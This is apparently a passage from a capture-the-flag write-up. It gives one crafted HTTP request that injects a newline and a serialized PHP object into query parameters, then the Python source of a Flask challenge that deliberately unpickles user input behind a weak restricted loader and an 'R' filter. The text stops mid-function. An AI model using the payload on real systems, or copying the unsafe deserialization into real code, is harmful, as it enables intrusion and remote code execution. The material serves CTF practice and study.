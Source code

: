 
```http
GET /eGlhb2xldW5n/eGlhb2xldW5nLnBocA==.php?pass=aaa.passwd%0a20200202&code=Tzo1OiJ0cmljayI6MTp7czoyOiJnZiI7czoxMToifiLIz8jJycrIziIiO30%3DD HTTP/1.1
```

### webtmp

```python
import base64
import io
import sys
import pickle

from flask import Flask, Response, render_template, request
import secret


app = Flask(__name__)


class Animal:
    def __init__(self, name, category):
        self.name = name
        self.category = category

    def __repr__(self):
        return f'Animal(name={self.name!r}, category={self.category!r})'

    def __eq__(self, other):
        return type(other) is Animal and self.name == other.name and self.category == other.category


class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module == '__main__':
            return getattr(sys.modules['__main__'], name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))


def restricted_loads(s):
    return RestrictedUnpickler(io.BytesIO(s)).load()


def read(filename, encoding='utf-8'):
    with open(filename, 'r', encoding=encoding) as fin:
        return fin.read()


@app.route('/', methods=['GET', 'POST'])
def index():
    if request.args.get('source'):
        return Response(read(__file__), mimetype='text/plain')

    if request.method == 'POST':
        try:
            pickle_data = request.form.get('data')
            if b'R' in base64.b64decode(pickle_data):
                return 'No... I don\'t like R-things. No Rabits, Rats, Roosters or RCEs.'
            else:
                result = restricted_loads(base64.b64decode(pickle_data))
                if type(result) is not Animal:
                    return 'Are you sure that is an animal???'
            correct = (result == Animal(secret.name, secret.category))
```